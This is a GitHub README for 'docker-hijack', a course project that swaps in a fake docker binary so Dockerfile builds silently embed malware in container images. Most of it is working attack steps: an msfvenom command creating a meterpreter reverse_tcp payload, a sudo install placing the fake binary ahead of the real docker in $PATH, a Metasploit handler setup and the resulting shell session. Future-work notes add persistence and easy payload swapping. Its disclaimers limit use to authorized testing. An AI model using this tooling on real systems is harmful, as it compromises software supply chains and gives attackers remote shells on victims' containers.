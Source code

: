 # docker-hijack

Docker-hijack demonstrates how an adversary could hijack the docker build process to embed malware in container images.

This tool is intended for use by ethical security practitioners to assess and improve cybersecurity.

Misuse of this tool is strongly condemned by the author.

This tool was created to satisfy classwork for Dakota State University's CSC-842 Security Tool Development.

Demo video: https://www.youtube.com/watch?v=t-6wPxQC8bE

![image](media/docker-hijack.drawio.png)

## Prerequisites

- GNU/Linux-based Operating System
- Go compiler
- Docker
- Metasploit (optional)

### Usage

### 1. Build from Source

We do not provide pre-compiled versions of this program.

You must first build docker-hijack from source.

Build instructions are as follows:

```bash
# clone the repository
git clone https://github.com/bluesentinelsec/docker-hijack.git

# enter the project folder
cd docker-highjack

# place a meterpreter shell in the payloads folder
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o pkg/payload/meterpreter

# read/change the evil docker-build commands
cat pkg/payload/build_commands.txt

# build docker-highjack with default options
go build -o docker-hijack cmd/main.go

# confirm executable runs; it should proxy
# '--help' to the legitimate docker executable
./docker-hijack --help
```

### 2. Deploy docker-hijack to target Unix-based system

How you do this is up to you.

Never deploy this tool on target systems unless you have explicit written permission from the device owner(s).

### 3. Install docker-hijack on target

You should now have the docker-hijack binary on the target system.

Next, we need to ensure that docker-hijack is executed before the legitimate docker.

There are many ways to do this, such as setting alias commands, or modifying the user's $PATH variable.

For demonstration purposes, you can simply copy the tainted docker to `/usr/local/bin` which is ahead of the legitimate docker executable.

This requires sudo permissions.

```bash
# move docker-hijack to location ahead of docker in $PATH
sudo mv docker-hijack /usr/local/bin
```

Now confirm that docker-hijack is executed:

```bash
docker --infected

you executed docker hijack
```

Now docker-hijack sits between the user and the legitimate docker executable.

### 4. Wait for compromised user to invoke docker build command

Setup a Meterpreter handler; this needs to match the Meterpreter created in `docker-hijack/pkg/payload/meterpreter`:

```
# example meterpreter commands
sudo msfconsole
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 0.0.0.0
msf > set LPORT 4444
msf > run -j
[*] Started reverse TCP handler on 0.0.0.0:4444 
```

Now wait... whenever a compromised user invokes docker build, docker-hijack will insert a malicious command into the docker build file.

To test this, run a docker build command against `docker-hijack/testData/Dockerfile`.

```bash
# from docker-hijack/testData/
# build the Dockerfile; docker-hijack will intercept the command
# and inject the Dockerfile; once the build is finished, docker-hijack
# will restore the original build file
docker build . -t infected
```

Finally, execute the container.

If it worked, you should get a shell.

```bash
docker run -it infected bash
```

```bash
msf6 exploit(multi/handler) > [*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.153:4444 -> 172.17.0.2:41404) at 2023-05-31 18:39:01 -0400
```

### 5. Cleanup

Remove docker-hijack:

```
# delete docker-hijack
rm -rf /usr/local/bin/docker

# stop/delete tainted container image
docker ps
docker stop <tainted container ID>

docker images
docker rmi infected --force
```

## Future Work

Given enough time, I would pursue the following features:

1. Automate docker-hijack installation

2. Deploy the embedded payload as a service/daemon. This should make the payload fire when the container is executed detatched. Cron job is another option; however, containers don't always have cron installed.

3. Make it easier to specify your payloads at build time. Ideally it should be:

```bash
make payload_src=/path/to/your_rat \
     payload_dst=/usr/local/bin/your_rat \
     build_cmds=/path/to/your_build_cmds.txt
```

4. Proxy commands and output using a real TTY

